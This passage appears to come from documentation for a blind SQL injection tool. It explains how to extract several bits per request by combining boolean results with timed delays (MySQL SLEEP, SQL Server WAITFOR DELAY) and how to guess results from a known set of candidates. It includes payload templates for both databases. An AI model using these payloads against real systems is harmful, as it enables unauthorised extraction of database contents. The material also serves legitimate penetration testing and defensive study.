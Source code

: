 We can combine this with the boolean result to add an additional response bit:
* False result with 0 second delay (000)
* True result with 0 second delay (001)
* False result with 6 second delay (010)
* True result with 6 second delay (011)
* Etc.

`MySQL`
```sql
(
  CASE WHEN test&1=1 THEN 1 ELSE 0 END
), (
  CASE WHEN test&2=2 THEN SLEEP(6) ELSE 0 END
), (
  CASE WHEN test&4=4 THEN SLEEP(12) ELSE 0 END
) FROM (SELECT (zzz) AS test) as x
```

`SQL Server`
```sql
CASE WHEN (zzz)&1=1 THEN 1 ELSE 0 END;
IF((zzz)&2=2)
  WAITFOR DELAY '00:00:06'
ELSE
  SELECT 0;
IF((zzz)&4=4)
  WAITFOR DELAY '00:00:12'
ELSE
  SELECT 0;--
```
Where `(zzz)` is the bit result of the current slice of the query we want to make.

## Result guessing
In some circumstances the result of a query may be known to be in a tight set of pre known candidates, for example SQL data types (`CHAR`, `VARCHAR`, `BLOB`, etc.) in which case knowing only a partial result could allow us to guess the exact result. For example, given the input corpus:
* Alice
* Bob
* Charlie
* Doogle
* Emily

To determine the result is `Charlie` we need only determine the first character is a `C`, as `Charlie` is the only candidate starting with the character `C`.

If we have a tightly defined input corpus of all possible results, we can easily calculate the minimum number of requests to uniquely identify a candidate from the input corpus and perform only those requests. For example, given the input corpus above we only have to query the 3 least significant bits of the first character to determine the result:

`MySQL`
```sql
ORD(SUBSTR(BINARY('Alice'), 1, 1))&7   #0b001
ORD(SUBSTR(BINARY('Bob'), 1, 1))&7     #0b010
ORD(SUBSTR(BINARY('Charlie'), 1, 1))&7 #0b011
ORD(SUBSTR(BINARY('Doogle'), 1, 1))&7  #0b100
ORD(SUBSTR(BINARY('Emily'), 1, 1))&7   #0b101
```
`SQL Server`
```sql
SUBSTRING(CONVERT(binary, 'Alice'), 1, 1)&7   --0b001
SUBSTRING(CONVERT(binary, 'Bob'), 1, 1)&7     --0b010
SUBSTRING(CONVERT(binary, 'Charlie'), 1, 1)&7 --0b011
SUBSTRING(CONVERT(binary, 'Doogle'), 1, 1)&7  --0b100
SUBSTRING(CONVERT(binary, 'Emily'), 1, 1)&7   --0b101
```
